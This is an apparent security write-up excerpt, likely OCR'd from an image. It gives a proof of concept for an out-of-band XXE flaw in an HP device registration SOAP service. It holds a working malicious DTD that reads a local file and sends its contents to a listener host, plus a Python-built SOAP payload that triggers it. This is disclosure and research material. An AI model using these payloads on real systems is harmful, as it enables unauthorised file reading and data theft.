 ```java
    } catch (SAXException e) {
      logger.error("validateAgainstXSD:", e);
      throw e;
    } catch (IOException e) {
      logger.error("validateAgainstXSD: ", e);
      throw e;
    } 
    return xmlParseErrorhandler;
  }
```

#### Exploiting the XXE Vulnerability: Proof of Concept

For the exploitation of this, I hosted a `malicious.dtd` as it will be an OOB XXE exploit, then we send a crafted payload which will load this hosted DTD which then reads the specified file and send it to our listener. This resulted in retrieval of content from the specified file, unfortunately the underlying library sends only the first line of the file as it is unable to parse the newline characters hence making this overall attack limited in terms of exfiltrating data. Similar case was identified in the [Ivanti Avalanche XXE](https://github.com/pwnfuzz/POCs/tree/main/CVE%202024-38653) vulnerability which I wrote an exploit for few months back.

Following DTD is used for showcasing the file read via OOB:
```xml

    <!ENTITY % file SYSTEM "file:///C:\users\Administrator\Desktop\hello.txt">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://192.168.1.17/?content=%file;'>">
    %eval;
    %exfiltrate;
    
```

`RegisterDevice` request for triggering XXE attack:

```python
    # SOAP envelope using WS-Addressing with correct input/output actions
    soap_envelope = f"""
    <soap12:Envelope xmlns:soap12="http://www.w3.org/2003/05/soap-envelope"
                     xmlns:wsa="http://www.w3.org/2005/08/addressing"
                     xmlns:tns="http://www.hp.com/it/sa/reg/">
        <soap12:Header>
            <wsa:Action>http://www.hp.com/it/sa/reg/Registration/RegisterDevice</wsa:Action>
            <wsa:MessageID>urn:uuid:{uuid.uuid4()}</wsa:MessageID>
            <wsa:To>https://localhost:7906/DeviceRegistration/DeviceRegistration.svc</wsa:To>
            <tns:AuthenticationHeader>
                <tns:Gdid>exampleGdid</tns:Gdid>
                <tns:RegistrationToken>exampleToken</tns:RegistrationToken>
            </tns:AuthenticationHeader>
        </soap12:Header>
        <soap12:Body>
            <tns:RegisterDevice>
                <tns:identifiers>
                            <![CDATA[
                        <!DOCTYPE a SYSTEM "{collaborator_url}/malicious.dtd">
                        <a>&callhome;</a>
                    ]]>
                </tns:identifiers>
                <tns:userId>user123</tns:userId>
                <tns:password>password123</tns:password>
                <tns:locale>en-US</tns:locale>
                <tns:optIn>true</tns:optIn>
            </tns:RegisterDevice>
        </soap12:Body>
    </soap12:Envelope>
    """
```
